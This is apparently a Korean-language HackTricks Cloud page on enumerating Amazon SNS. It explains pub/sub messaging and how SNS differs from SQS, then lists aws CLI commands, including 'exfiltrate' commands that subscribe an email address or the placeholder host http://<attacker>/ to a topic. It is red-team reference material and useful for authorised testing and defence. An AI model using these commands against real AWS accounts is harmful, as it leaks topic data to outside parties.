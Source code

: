 # AWS - SNS Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 제출하세요.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS)은 **완전 관리형 메시징 서비스**로 설명됩니다. **응용 프로그램 간 통신** (A2A) 및 **응용 프로그램-사용자** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신의 주요 기능에는 **발행/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 **고처리량, 푸시 기반, 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 주도 서버리스 아키텍처가 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용하면 발행자 시스템이 메시지를 **다양한 구독자 시스템에 효율적으로 분배**하여 팬아웃 메시징 패턴을 용이하게 할 수 있습니다.

### **SQS와의 차이점**

**SQS**는 **큐 기반** 서비스로, 메시지가 **단일 소비자**에 의해 처리되도록 보장하는 포인트 투 포인트 통신을 허용합니다. **적어도 한 번의 전달**을 제공하며, 표준 및 FIFO 큐를 지원하며 재시도 및 지연 처리를 위한 메시지 보유를 허용합니다.\
반면 **SNS**는 **발행/구독 기반 서비스**로, 메시지를 **여러 구독자**에 동시에 방송하여 **일대다** 통신을 가능하게 합니다. **이메일, SMS, 람다 함수 및 HTTP/HTTPS**와 같은 다양한 구독 엔드포인트를 지원하며, 대상 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템 구성 요소 간의 디커플링을 가능하게 하지만, SQS는 대기열 통신에 중점을 두고 있으며, SNS는 이벤트 주도 및 팬아웃 통신 패턴에 중점을 둡니다.

### **열거**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**주제가 FIFO 유형인 경우**에는 SQS 프로토콜을 사용하는 구독자만 사용할 수 있습니다(HTTP 또는 HTTPS는 사용할 수 없음).

또한 `--topic-arn`에 지역이 포함되어 있더라도 올바른 지역을 **`--region`**에 지정해야 합니다. 그렇지 않으면 액세스 권한이 없다는 오류가 발생할 수 있지만 실제 문제는 지역 설정입니다.
{% endhint %}

#### 인증되지 않은 액세스

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 후반 공격

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 지속성

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 참고 자료

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 제로부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하려면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks 및 HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유하세요.**

</details>
